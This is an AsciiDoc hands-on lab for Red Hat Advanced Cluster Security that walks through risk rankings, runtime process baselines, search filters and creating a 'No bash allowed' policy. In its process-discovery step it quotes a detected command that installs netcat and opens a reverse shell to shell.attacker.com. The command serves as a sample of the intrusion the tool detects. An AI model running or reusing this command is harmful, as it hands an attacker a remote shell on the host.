 :labname: Risk

== {labname} Lab

:numbered:

== Introduction to Risk

You are now acquainted with the detailed information that Red Hat^(R)^ Advanced Cluster Security for Kubernetes (RHACS) provides about vulnerabilities and workflows to manage individual vulnerabilities.
Often the number of vulnerabilities detected can seem daunting to those uninitiated in security practice.
You need a system to evaluate the potential risk of harm from these vulnerabilities.
And you need a way of prioritizing vulnerabilities to be addressed and not just defer them.

RHACS understands the three major phases of an application's lifecycle to be _build_, _deploy_, and _runtime_.

The risk evaluation functionality of RHACS is used to understand how deployment-time configuration and runtime activity impact the likelihood of exploits occurring and how successful those exploits may be.
It assesses risk across your entire environment and ranks your running deployments according to their security risk.
It also details vulnerabilities, configurations, and runtime activities that require immediate attention.
This helps you prioritize the remedial actions you plan to take.

Risk is influenced by runtime activity and deployments with the activity that can indicate a breach.

Realistically it is only possible to tackle some sources of risk, so organizations prioritize their efforts. RHACS helps to inform that prioritization.

.Goals
* View risk justifications
* Lock baselines to track deviations
* Find vulnerabilities quickly with filters
* Create policies from filters

[[labexercises]]


== View Risk Justifications

=== View Risks by Deployment

In this section, you look at the complete view of the risks by deployments in all the clusters of your system.

This list view shows all deployments in all clusters and namespaces, ordered by risk priority.
A multi-factor risk metric sorts deployments based on policy violations, image contents, deployment configuration, and other similar factors.
Deployments at the top of the list present the most risk.

.Procedure
. From the left navigation menu, select the *Risk* tab:
+
image::rhacs_risk_view.png[RHACM Risk view]

=== View Single Deployment Details

In this section, you examine the riskiest deployment to understand how risk is assessed during deploy time.

.Procedure
. Click the `visa-processor` deployment to bring up the *Risk Details* panel, with the *Risk Indicators* tab selected:
+
image:rhacs_risk_details_panel.png[Risk Details panel]
+
The *Risk Indicators* tab shows why this deployment is highly risky.
The deployment has serious, fixable vulnerabilities, but it also has configurations such as network ports and service exposure outside the cluster, making it more likely to be attacked.
+
In addition, other configurations, such as privileged containers, mean that a successful attacker has access to the underlying host network and file system, including other containers running on that host.
+
. Navigate to the bottom of the *Risk Indicators* page to the *RBAC Configuration* section.
+
At the bottom, you see another serious problem: the service account associated with this deployment was given _cluster admin_ privileges. This means a successful attacker gains complete control over this entire OpenShift^(R)^ cluster.

All of these configurations are gleaned automatically by RHACS from OpenShift, and the built-in policies assign a risk score to each, meaning that this risk report is available as soon as you start running RHACS.

== Track Processes and Lock Baselines at Runtime

Examining deployment details shows you which security vulnerabilities may be present during deployment time.
Of course, you cannot restrict yourself to build- and deploy-time configuration.

Even a perfectly configured application has the potential for an attacker to gain access and cause havoc at runtime.
In this section, you see how RHACS continuously monitors runtime activity within pods in the deployment, building a baseline of observed behavior and tracking deviations from that baseline.

=== Track Processes

.Procedure
. On the Visa-Processor Risk Details right panel, navigate to the *Process Discovery* tab.
You can see that a baseline of processes is already established and that a few violations of that baseline have already been discovered.
The baseline is a list of the processes currently running.
Alerts are created if RHACS detects new processes that are not in the baseline.
You could, in theory, add those processes to the baseline with the `+` sign and silence the alert, but that is not a good idea.
. Click the drop-down arrow next to `/bin/bash` to reveal the specific context that triggered this violation: `-c /usr/bin/sudo /usr/bin/apt-get -y install netcat; /usr/bin/sudo /bin/nc shell.attacker.com 9001 -e /bin/bash`.

. Click the *View Graph* in the header bar to call up the *Event Timeline*.
+
The event timeline shows for each pod the process activity that has occurred over time.
+
. Click the squares or circles for the process activity:
+
image::rhacs_event_timeline.png[RHACS Event Timeline]
+
You can take advantage of the constrained lifecycle of containers for better runtime incident detection and response.
Containers are not general-purpose virtual machines and therefore, generally have a simple lifecycle.
They typically have a startup period, with some initialization, and then settle down to a small number of processes running continuously and making or receiving connections.
Deviations from the baseline can be used to take enforcement action and alert team members.
Runtime activity rules can be combined with other activity.
+
. Press `Esc` to close the *Event Timeline* window.

=== Lock Baseline

Fortunately, the `visa-processor` deployment is unlocked, and we can change our baselines.

In this section, you take a look at what processes are explicitly allowed to run in the deployment.

.Procedure
. Click the *Process Discovery* tab on the *Risk Details* panel.
. Scroll down to the *Spec Container Baselines* section:
+
image::rhacs_lock_baselines.png[RHACS Lock Baselines]
+
The tooltip shows that the `visa-processor` container is already unlocked and warns that locking the process baselines will configure alerts in the future.
The list below shows all processes discovered and added to the baseline in the first hour of runtime.
. Scroll down to the bottom of the list and see another container, the `visa-processor-sidecar` that is also accounted for.
. Hover over the lock icon for the `visa-processor-sidecar` and note that it is not locked.
. Go ahead and lock the baseline.
All further processes run in this sidecar that is not among the several listed result in a triggered alert.
. Click *X* to close the details panel.

== Find Vulnerabilities Quickly with Filters

In the *Risk* view and most UI pages, RHACS has a filter bar at the top that allows you to narrow the reporting view to matching or non-matching criteria.
Almost all of the attributes that RHACS gathers are filterable.
This is very useful in the *Risk* view when you know what you are looking for--for example, when you want answers to questions such as, "What applications have CVE-2020-1008 present?".

.Procedure
. Enter `Process Name` in the filter bar (where it reads `Add one or more resource filters`) and select the *Process Name* key.
. Enter `bash` and then press *Enter*.
. Click away to clear the filter.
+
Several deployments are shown to have run `bash` since they started--and all of them are in production.
+
. To the right of the filter bar, hover over the *+* (Create Policy) button
to reveal the *Create Policy from Current Search* tooltip.

== Create Policies from Filters

Now that you are familiar with searching for interesting criteria, you can create a policy from the search filter to automatically identify these criteria going forward.

=== Create Policies

You can create new security policies based on the filtering criteria that you select.
RHACS transforms the filtering criteria into policy criteria by converting the cluster, namespace, and deployment filters to equivalent policy scopes.

To create a policy, you use the same filter to see which deployments have run `bash` that you used previously.

image::02_vuln_13.png[policy creation]

However, when you create new security policies from the *Risk* view based on the selected filtering criteria, not all requirements are directly applied to the new policy.
You must fill out some additional information.

.Procedure
. Click the *+ (Create Policy)* next to the filter bar and complete the required fields to create a new policy:
* *Name*: `No bash allowed`
* *Severity*: `High`
* *Categories*: `Anomalous Activity`
* *Description*: `No bash allowed`
* *Rationale*: `Too many known vulns`
* *Guidance*: `Use ZSH`
* *MITRE ATT&CK*: `The policy can be mapped to a MITRE ATT&CK technique.`
* *Lifecycle stages*: `Runtime`
* *Event sources*; `Deployment`
* *Response method*: `Inform`
* *Inform and enforce*: `Enform on Runtime`

* *Policy Crieria*: `On the right there is a *drag out policy fields* bar.Find *Process Activity* and select *Unexpected process executed*. Drag into into the policy section.`

Make sure to preview the policy before accepting it. 

=== Explore Advanced Filtering

You can write more advanced filters focusing on particular scopes to detect vulnerabilities more accurately.

Local page filtering on the *Risk* view combines the search terms by using the following methods:

* Combines the search terms within the same category with an `OR` operator. For example, if the search query is `Cluster:A,B` the filter matches cluster `A` or cluster `B` deployments.

* Combines the search terms from different categories with an `AND` operator. For example, if the search query is `Cluster:A+Namespace:Z`, the filter matches deployments in cluster `A` and in namespace `Z`.

When you add multiple scopes to a policy, the policy matches violations from any of the scopes. For example, if you search for `(Cluster A OR Cluster B) AND (Namespace Z)` it results in two policy scopes, `(Cluster=A AND Namespace=Z)` OR `(Cluster=B AND Namespace=Z)`.

NOTE: Not all filters can be used in policies.
RHACS drops or modifies filters that do not directly map to policy criteria and reports the dropped filters.
See the link:https://docs.openshift.com/acs/3.74/operating/evaluate-security-risks.html#understanding-filtering-to-policy-mapping_evaluate-security-risks[Understanding ... the filtering criteria into policy criteria^] documentation for more information.

== Extra Work
Try some of these scopes yourself by indicating different namespaces in your filters.

== Summary

In this lab, you became familiar with the power of RHACS.
RHACS does not simply surface vulnerabilities.
It determines the risk of the vulnerabilities based on how and where they appear in the application lifecycle--build, deploy, and runtime.

You learned the various risk priority justifications RHACS provides and filtered and searched through these vulnerabilities.

RHACS reports the risk indicators, deployment details, and processes necessary to discover vulnerabilities for each deployment.

You tracked processes running in containers and locked a baseline of processes, triggering violations for all processes detected that were not in the baseline.

Finally, you created filters to see the extent of a vulnerability across your fleet, and created a policy based on that discovery.

In the next module, you will use the Network Graph to better understand and protect your system and applications.